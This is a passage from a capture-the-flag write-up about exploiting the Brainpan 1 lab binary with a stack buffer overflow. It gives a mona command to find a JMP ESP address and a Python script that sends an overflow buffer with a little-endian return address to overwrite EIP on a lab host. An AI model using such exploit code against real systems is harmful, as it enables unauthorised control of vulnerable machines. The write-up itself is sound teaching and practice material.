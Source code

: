 Thats what we need, FFE4  is the opcode for the instrcution (0xFF, 0xE4, two bytes).
Lets search for this specific opcode in the Debugger with the following command: 
`!mona find -s '\xff\xe4' -m brainpan.exe`

This gives us the memory address for the instruction:

![mona-find28](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/brainpan1/img/mona-find28.png)


Instructionis at 311712F3. This is where we will point the EIP register.  


### Testing the Opcode

Lets test if we can sucsesfully overwrite the EIP register with the return adderss we found in 
the previous step. 

First, lets add the return address to our script:


```python
import socket, sys

buffer = b'A' * 524
opcode = b'\xf3\x12\x17\x31' 	 # Return address is 311712f3, but is sent backwards
payload = buffer + opcode


try:
	conn = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	conn.connect(('192.168.60.15', 9999))
		
	conn.sendall(payload)
	conn.close()
	
except Exception as e:
	print(e)
	sys.exit()
```


Notice the return address is backwards, this is becasue x86 machines are little endian, 
which means they store the least significant bit first, so binary values are handled in revrese. 

Next, we need to find this return address in the binary, and set a breakpoint on this address.
Open the debugger: 

![breakp29](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/brainpan1/img/breakp29.png)
